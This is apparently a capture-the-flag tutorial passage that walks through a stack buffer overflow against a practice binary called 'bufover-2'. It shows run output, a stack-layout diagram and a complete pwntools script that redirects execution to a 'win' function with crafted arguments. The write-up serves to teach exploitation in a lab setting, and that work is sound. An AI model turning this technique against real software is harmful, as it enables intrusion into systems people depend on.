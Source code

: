 Now run it.

```
python exploit.py

[+] Starting local process './bufover-2': pid 26081
AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04
Type something
None
>
[*] Process './bufover-2' stopped with exit code 1 (pid 26081)
You typed AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04!
Close, but not quite.
```

Now, we know that the win function has succesfully run. But, we still don't have the flag. This is because we didn't pass the win function any arguments. 

Let's build our mental model of how we want to manipulate the stack to look. Remember that first we push the return address onto the stack, followed by the arguments, in reverse order. So first, we push arg1 onto the stack, and then we push arg2. So in our exploit, we will send the buffer, followed by the return address, followed by arg1, followed by arg2. 

```
HIGH MEMORY ADDRESSES
---- TOP ----
-> arg2
-> arg1 
-> return address of win that we went through our input
-> 4 A's to fill up the space of EBP
-> 24 A's to fill up var_18h
-- BOTTOM ---
LOWER MEMORY ADDRESSES
```

Recall however, that arg1 is a long long int, so our normal p32 function in pwntools isn't going to do us any good when we send the value for arg1. We need to use p64(), as a long long int in c takes up 64 bits instead of 32. 

Cool, so we are fine to write our exploit now, right? 

```
#!/usr/bin/env python2

from pwn import *

#start the ./pwn1 process and save it in variable p
p = process('./bufover-2')

exploitBufferToOverwriteVarAndEBP = "A"*28

returnAddressOfWin = p32(0x080491c2)

arg1 = p64(0x14B4DA55)
arg2 = p32(0xF00DB4BE)


exploitToSend = exploitBufferToOverwriteVarAndEBP + returnAddressOfWin + arg1 + arg2

print(exploitToSend)
print(p.recvuntil('something'))

print(p.sendline(exploitToSend))

print(p.recv())
print(p.recv())

```